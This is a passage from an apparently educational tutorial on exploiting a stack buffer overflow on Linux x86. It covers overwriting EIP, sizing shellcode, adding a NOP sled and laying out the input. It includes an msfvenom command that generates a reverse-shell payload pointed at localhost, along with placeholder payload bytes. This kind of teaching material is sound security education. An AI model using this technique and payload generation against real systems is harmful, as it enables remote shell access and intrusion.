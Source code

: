 Now EIP will contain `0x66666666`

## Determine the length of the shellcode

The shellcode is the piece of software we'll make the program execute by abusing of the stack. We'll provide this executable piece of code as part of the input, and we'll write its memory address into the EIP. In this case, we'll write a reverse shell as a shellcode. In order to do so, we'll use `msfvenom` tool:

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We'll need 68 bytes to accomodate our shellcode in memory. However, we'll increase the requirement to accomodate more complex shellcode if needed.

In order to have some space to ensure the execution, we can add some No operation instruction (NO-OP) before the shell code begins.

Summarizing, our input data will look like this:

```text
Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
NOPs = "\x90" * 100
Shellcode = "\x44" * 150
EIP = "\x66" * 4
```

And visually:

![Memory contents with the shellcode](stack_with_shellcode.jpg)

